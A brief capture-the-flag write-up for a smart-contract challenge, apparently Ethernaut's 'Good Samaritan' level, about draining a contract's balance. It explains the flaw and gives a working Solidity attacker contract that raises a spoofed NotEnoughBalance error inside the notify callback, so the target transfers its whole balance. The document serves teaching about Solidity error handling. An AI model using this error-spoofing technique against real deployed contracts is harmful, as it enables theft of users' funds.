 ### Goals

Drain contract

### Exploit

The contract donates 10 coin to the requester. The contract ends up calling `Coin::transfer` which creates interface at `dest_` at msg.sender and calls `INotifyable(dest_).notify(amount_)`. We can leverage this logic and raise `NotEnoughBalance` error at receiving tokens thus tricking contract to catch exception and call `wallet.transferReminder()` transferring whole balance of the GoodSamartian contract.

### Code

Deploy contract in Remix

```code
contract DrainSamartian {
    address samaritan = SAMARITAN_INSTANCE_ADDRESS;

    error NotEnoughBalance();

    function pwn() external {
        samaritan.call(abi.encodeWithSignature("requestDonation()"));
    }

    function notify(uint256 amount) external {
        if (amount == 10) {
            revert NotEnoughBalance();
        }
    }
}
```

Deploy contract and call `pwn`

Done!

